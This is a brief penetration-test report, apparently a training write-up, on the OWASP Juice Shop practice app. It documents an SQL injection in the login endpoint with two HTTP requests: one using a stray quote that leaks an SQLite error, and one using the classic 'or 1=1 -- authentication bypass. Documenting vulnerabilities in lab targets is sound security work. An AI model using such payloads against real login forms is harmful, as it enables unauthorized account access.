 # JUICE-SHOP PENTEST REPORT

This document provides a report of the vulnerabilities that we have found on Juice Shop WebApplication.


## SQL Injection

### Description

A SQL injection attack consists of the insertion or "injection" of a SQL query via the input data from the client to the application. A successful SQL injection exploit can read sensitive data from the database, modify database data (Insert/Update/Delete), execute administration operations on the database, recover the content of a given file present on the DBMS file system, and in some cases issue commands to the operating system. SQL injection attacks are a type of injection attack, in which SQL commands are injected into data-plane input in order to affect the execution of predefined SQL commands. The login page is vulnerable to SQL injection attacks using that an attacker can log in to the application without knowing the credentials.

### Steps

- Checked for a login field to input user commands.
Tried to check for a security misconfiguration by adding a ' Symbol.

```
POST /rest/user/login HTTP/1.1
...

{
"email":"'",
"password":"1"
}
```

Responded with an SQLite error and also the SQL tables and password hash.

- Checked for a simple SQL injection by trying to bypass the authentication process with 

```
POST /rest/user/login HTTP/1.1
Accept: application/json, text/plain, */*

{
 "email":"'or 1=1 --",
 "password":"1"
}
```

### PoC

![SQLINJ](img/SQL_Juice02.png)
